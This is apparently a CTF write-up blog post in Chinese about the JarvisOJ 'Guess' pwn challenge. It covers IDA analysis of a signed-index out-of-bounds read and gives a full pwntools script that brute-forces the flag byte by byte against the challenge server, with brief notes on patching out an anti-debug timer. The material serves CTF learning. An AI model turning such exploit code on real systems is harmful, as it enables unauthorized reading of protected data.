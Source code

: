 ```yaml
---
layout:     post
title:      jarvisoj Guess
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Problem Description:  
>你猜，你猜，你猜不到，你猜对了就给你flag  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/guess.0eff3b4fdf70b3d7c2108758691c9be3  
>  
>Address:  
>nc pwn.jarvisoj.com 9878  
<!-- more -->


### 0x00 IDA分析

```
1. 判断输入字符串flag_hex的长度是否等于100
2. 将unk_401100处数据复制到bin_by_hex
3. flag_hex两个字符为一组作为bin_by_hex的下标，将索引值分别赋值给value1、value2
4. 若value1、value2有一个的值为-1，则程序退出(内存数据以补码形式存储，-1的补码为0xff)
5. given_flag[i] = value2 | 16 * value1
6. 判断flag与given_flag是否相同
```

根据strings定位到handle

![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x00.png)

重点关注is_flag_correct，跟进去

![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x01.png)

漏洞出现在以下两处

![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x02.png)
![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x03.png)

再看看栈的布局

![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x04.png)

可以根据第一处漏洞传入大于127的字符，溢出成负数，通过第二处漏洞能寻址到真正的flag


### 0x01 最终的exploit


```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
import sys
import os

context.log_level = 21  # pwntools 的日志等级 , 不输出日志

# 根据真正的flag生成100个字节长度的字符串payload，将value1置0，value2置为flag的对应字符
def get_true_flag_payload():
    offset = (-0x110) - (-0x150)
    base = 0x100 - offset # 0x100 - 0x40 = 0xc0 --> -64
    payload = ""
    for i in range(50):
        payload += "0" + chr(base)
	base += 1
    return payload

# 按照索引index将1个可打印字符的高位数值和低位数值作为2个字符逐一修改payload，实现逐一字节爆破
def get_guess_payload(index, char):
    true_flag_payload = list(get_true_flag_payload())
    high = ("%02x" % char)[0]
    low = ("%02x" % char)[1]
    true_flag_payload[index * 2 + 0] = high
    true_flag_payload[index * 2 + 1] = low
    return ''.join(str(i) for i in true_flag_payload)

def guess_once(payload):
    Io = remote(HOST, PORT)
    Io.readuntil(">")
    Io.sendline(payload)
    response = Io.readline()
    Io.close()
    return ("Yaaaay!" in response)

PROGRESS = ['-', '\\', '|', '/']
FLAG_LENGTH = 50
HOST = "pwn.jarvisoj.com"
PORT = 9878

flag = ""
TOTAL = FLAG_LENGTH * len(string.printable)
GUESSED = 0
for i in range(FLAG_LENGTH):
    for j in string.printable:
        os.system("clear")
        print "[%s] Flag : %s" % (PROGRESS[GUESSED % len(PROGRESS)], flag)
        sys.stdout.write("[+] Guessing (%s%%) : [%s]" %
                      (str(GUESSED * 100.0 / TOTAL), j) + '\r')
        sys.stdout.flush()
        payload = get_guess_payload(i, ord(j))
        GUESSED += 1
        if guess_once(payload):
            GUESSED = i * len(string.printable)
            flag += j
            break
os.system("clear")
GUESSED = TOTAL
print "[+] Flag : %s" % (flag)
```

得到flag

![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x05.png)


### 0x03 附：IDA动态调试

handle函数处有一个计时器，一般用作反调试，先nop掉

![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x06.png)
![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x07.png)
![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x08.png)
![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x09.png)
![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x0a.png)
![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x0b.png)

然后attach上去

![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x0c.png)
![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x0d.png)
![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x0e.png)
![](/assets/img/writeup/pwn/2017-07-21-jarvisoj-guess/0x0f.png)